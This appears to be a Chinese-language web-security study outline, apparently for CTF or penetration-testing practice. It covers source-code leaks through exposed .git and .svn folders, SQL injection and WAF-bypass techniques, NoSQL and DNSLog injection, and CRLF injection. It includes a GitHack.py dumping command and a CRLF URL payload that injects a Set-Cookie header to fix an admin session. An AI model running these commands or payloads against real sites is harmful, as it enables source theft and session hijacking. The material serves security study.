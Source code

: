 * .git

  ```shell
  python GitHack.py http://x.x.x.x/.git/
  ```

* .svn

  ```
  http://127.0.0.1/.svn/entries
  ```

  工具：Seay SVN漏洞利用工具

* bak file(.tar.gz/.rar/.zip/.7z/.bak)

## SQL注入

### 简单注入

联合查询

宽字节

Cookie

大小写、双写

### 花式绕WAF

char,hex

干扰字符 /特性

白名单 spider

### 二次注入

写入数据库的时候，保留了原数据

### SQLite



## DNSLog注入

## nosql注入

### mangodb

## CRLF注入

CRLF 注⼊是⼀类漏洞，在⽤户设法向应⽤插⼊ CRLF 时出现。在多种互联⽹协议中，包括 HTML， CRLF 字符表示了⾏的末尾，**通常表示为\r\n，编码后是%0D%0A**。在和 HTTP 请求或响应头组合时，这可以⽤于表示⼀⾏的结束，并且可能导致不同的漏洞，包括 HTTP 请求⾛私和 HTTP 响应分割。

```
http://victim/foo?url=http://example.com
GET /foo HTTP/1.1
Content-Type: text/html
Connection: close
Location: http://example.com


http://victim/foo?url=http://example.com%0aSetcookie:PHPSESSION%3dadmin
GET /foo HTTP/1.1
Content-Type: text/html
Connection: close
Location: http://example.com
```
